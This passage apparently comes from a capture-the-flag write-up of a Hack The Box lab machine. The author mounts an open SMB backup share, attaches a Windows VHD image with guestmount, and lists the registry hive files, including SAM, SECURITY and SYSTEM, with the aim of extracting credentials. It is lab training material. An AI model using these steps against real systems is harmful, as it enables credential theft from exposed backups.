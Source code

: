 Normally I would use the `get` command, but for some reason this messes things up and I can't use a guest mount tool. I was able to mount the share to /mnt/bastion with the following command:
```bash
sudo mount -t cifs //10.129.136.29/backups /mnt/bastion/
```
From there I navigated to the .vhd file I wanted and then  mounted that to a directory called /mnt/crack
```bash
sudo guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/crack/
```

> (This takes a minute it is a big file...)

Then I needed to be in a root shell and navigate into the backup. Since VHD files are backups of windows images, I might be able to get credentials:
```
┌─[root@htb-wmkqkfhdab]─[/mnt/crack/Windows/System32/config]
└──╼ #ls -la
total 74740
drwxrwxrwx 1 root root    12288 Feb 22  2019 .
drwxrwxrwx 1 root root   655360 Feb 22  2019 ..
-rwxrwxrwx 2 root root    28672 Feb 22  2019 BCD-Template
-rwxrwxrwx 2 root root    25600 Feb 22  2019 BCD-Template.LOG
-rwxrwxrwx 2 root root 30932992 Feb 22  2019 COMPONENTS
-rwxrwxrwx 2 root root  1048576 Feb 22  2019 COMPONENTS{6cced2ec-6e01-11de-8bed-001e0bcd1824}.TxR.0.regtrans-ms
-rwxrwxrwx 2 root root  1048576 Feb 22  2019 COMPONENTS{6cced2ec-6e01-11de-8bed-001e0bcd1824}.TxR.1.regtrans-ms
-rwxrwxrwx 2 root root  1048576 Feb 22  2019 COMPONENTS{6cced2ec-6e01-11de-8bed-001e0bcd1824}.TxR.2.regtrans-ms
-rwxrwxrwx 2 root root    65536 Feb 22  2019 COMPONENTS{6cced2ec-6e01-11de-8bed-001e0bcd1824}.TxR.blf
-rwxrwxrwx 2 root root    65536 Feb 22  2019 COMPONENTS{6cced2ed-6e01-11de-8bed-001e0bcd1824}.TM.blf
-rwxrwxrwx 2 root root   524288 Feb 22  2019 COMPONENTS{6cced2ed-6e01-11de-8bed-001e0bcd1824}.TMContainer00000000000000000001.regtrans-ms
-rwxrwxrwx 2 root root   524288 Jul 14  2009 COMPONENTS{6cced2ed-6e01-11de-8bed-001e0bcd1824}.TMContainer00000000000000000002.regtrans-ms
-rwxrwxrwx 2 root root     1024 Apr 12  2011 COMPONENTS.LOG
-rwxrwxrwx 2 root root   262144 Feb 22  2019 COMPONENTS.LOG1
-rwxrwxrwx 2 root root        0 Jul 14  2009 COMPONENTS.LOG2
-rwxrwxrwx 1 root root   262144 Feb 22  2019 DEFAULT
-rwxrwxrwx 1 root root     1024 Apr 12  2011 DEFAULT.LOG
-rwxrwxrwx 2 root root    91136 Feb 22  2019 DEFAULT.LOG1
-rwxrwxrwx 2 root root        0 Jul 14  2009 DEFAULT.LOG2
drwxrwxrwx 1 root root        0 Jul 14  2009 Journal
drwxrwxrwx 1 root root        0 Feb 22  2019 RegBack
-rwxrwxrwx 1 root root   262144 Feb 22  2019 SAM
-rwxrwxrwx 1 root root     1024 Apr 12  2011 SAM.LOG
-rwxrwxrwx 2 root root    21504 Feb 22  2019 SAM.LOG1
-rwxrwxrwx 2 root root        0 Jul 14  2009 SAM.LOG2
-rwxrwxrwx 1 root root   262144 Feb 22  2019 SECURITY
-rwxrwxrwx 1 root root     1024 Apr 12  2011 SECURITY.LOG
-rwxrwxrwx 2 root root    21504 Feb 22  2019 SECURITY.LOG1
-rwxrwxrwx 2 root root        0 Jul 14  2009 SECURITY.LOG2
-rwxrwxrwx 1 root root 24117248 Feb 22  2019 SOFTWARE
-rwxrwxrwx 1 root root     1024 Apr 12  2011 SOFTWARE.LOG
-rwxrwxrwx 2 root root   262144 Feb 22  2019 SOFTWARE.LOG1
-rwxrwxrwx 2 root root        0 Jul 14  2009 SOFTWARE.LOG2
-rwxrwxrwx 1 root root  9699328 Feb 22  2019 SYSTEM
-rwxrwxrwx 1 root root     1024 Apr 12  2011 SYSTEM.LOG
-rwxrwxrwx 2 root root   262144 Feb 22  2019 SYSTEM.LOG1
-rwxrwxrwx 2 root root        0 Jul 14  2009 SYSTEM.LOG2
drwxrwxrwx 1 root root     4096 Nov 20  2010 systemprofile
drwxrwxrwx 1 root root     4096 Feb 22  2019 TxR     
```